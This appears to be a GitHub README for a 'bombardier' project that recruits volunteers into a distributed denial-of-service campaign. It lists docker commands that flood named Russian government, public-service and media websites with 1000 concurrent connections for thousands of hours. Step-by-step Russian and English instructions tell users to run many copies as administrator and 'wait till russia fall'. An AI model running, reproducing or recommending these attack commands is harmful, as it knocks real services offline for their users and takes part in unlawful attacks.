 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

Инструкция для пользователей Windows и Mac: 
1. Установить Docker: https://www.docker.com/products/docker-desktop 
2. Запустить докер и убедиться, что Docker Started 
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md 
4. Найти в программах Windows Command Prompt и запустить от имени Администратора 
5. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт) 
6. Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер 
7. Убедиться, что процесс пошёл 
8. Ждать падения рашки


Instruction for Windows and Mac: 
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip) 
2. Launch Docker and make sure that Docker is running 
3. Go here https://github.com/almerico/bombardier/blob/main/README.md 
4. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin. 
5. Open as many separate CMD consoles as many scripts you are going to launch (each line – one script) 
6. Copy script (e.g. docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) and press Enter
7. Make sure that the process started 
8. Wait till russia fall
